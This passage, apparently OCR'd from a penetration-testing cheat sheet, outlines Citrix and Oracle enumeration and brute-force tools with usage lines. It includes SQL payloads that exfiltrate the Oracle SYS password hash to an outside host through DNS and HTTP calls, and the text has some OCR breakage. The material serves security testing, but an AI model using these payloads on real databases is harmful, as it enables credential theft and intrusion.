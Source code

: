         SQLlhf
        ForceSQL

Citrix port 1494 open

    Citrix Enumeration
        Default Domain
        Published Applications
            ./citrix-pa-scan {IP_address/file | - | random} [timeout]
            citrix-pa-proxy.pl IP_to_proxy_to [Local_IP]
    Citrix Brute Force
        bforce.js
        connect.js
        Citrix Brute-forcer
        Reference Material
            Hacking Citrix - the legitimate backdoor
            Hacking Citrix - the forceful way

Oracle Port 1521 Open

    Oracle Enumeration
        oracsec
        Repscan
        Sidguess
        Scuba
        DNS/HTTP Enumeration
            SQL> SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL

            SQL> select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;
        WinSID
        Oracle default password list
        TNSVer
            tnsver host [port]
        TCP Scan
        Oracle TNSLSNR
            Will respond to: [ping] [version] [status] [service] [change_password] [help] [reload] [save_config] [set log_directory] [set display_mode] [set log_file] [show] [spawn] [stop]
        TNSCmd
            perl tnscmd.pl -h ip_address
            perl tnscmd.pl version -h ip_address
            perl tnscmd.pl status -h ip_address
            perl tnscmd.pl -h ip_address --cmdsize (40 - 200)
        LSNrCheck
        Oracle Security Check (needs credentials)
        OAT
            sh opwg.sh -s ip_address
            opwg.bat -s ip_address
            sh oquery.sh -s ip_address -u username -p password -d SID OR c:\oquery -s ip_address -u username -p password -d SID
        OScanner
            sh oscanner.sh -s ip_address
            oscanner.exe -s ip_address
            sh reportviewer.sh oscanner_saved_file.xml
            reportviewer.exe oscanner_saved_file.xml
        NGS Squirrel for Oracle
        Service Register
            Service-register.exe ip_address
        PLSQL Scanner 2008
    Oracle Brute Force
        OAK
            ora-getsid hostname port sid_dictionary_list
            ora-auth-alter-session host port sid username password sql
            ora-brutesid host port start